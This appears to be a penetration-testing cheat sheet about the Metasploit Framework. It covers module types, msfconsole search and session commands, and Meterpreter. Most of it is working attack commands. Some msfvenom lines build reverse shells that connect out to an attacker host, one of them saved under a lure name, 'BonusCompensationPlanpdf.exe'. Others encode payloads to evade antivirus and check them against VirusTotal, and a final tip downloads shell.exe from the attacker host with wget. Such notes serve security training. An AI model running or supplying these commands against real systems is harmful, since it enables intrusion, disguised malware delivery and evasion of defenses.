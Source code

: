 # Metasploit

## What is this?

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## Architecture

1. **Auxiliary** - Any supporting module, such as scanners, crawlers and fuzzers.
2. **Encoders** - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. **Evasion** - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. **Exploits** - Exploits, neatly organized by target system.
5. **NOPs** - `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. **Payloads** - Payloads are codes that will run on the target system.
7. **Post** - Post modules would be useful in post-exploitation.

## Useful MSFconsole Commands

* **Specific Search**

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

* **Get more info about module**

```bash
info
```

* **MSF - Permanent Target Specification**

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

* **Show and Set Target for exploit**

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

* **Searching for Specific Payload**

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

* **Use Local Exploit Suggester**

```bash
msf6 > search local exploit suggester
```

## MSFvenom

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.

* **List Payloads**

```bash
msfvenom -l payloads
```

* **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

* **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Staged vs Stageless Payloads

<mark style="color:blue;">**`Staged`**</mark>** payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>** payloads do not have a stage.** So all payload and programs are loaded at first time.

## Meterpreter

<mark style="color:blue;">**`The Meterpreter`**</mark> payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

### Encoder

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### Sessions

* **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

* **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

* **Getting shell**

```bash
msf6 exploit(windows/smb/goose) > shell
```

* **Background session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

* **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

* **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

* **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

***

## Lifehacks

* Use wget -o parameter when you want to install revshell file into machine like:&#x20;

```
wget http://13.13.13.13:1337/shell.exe -o shell.exe
```
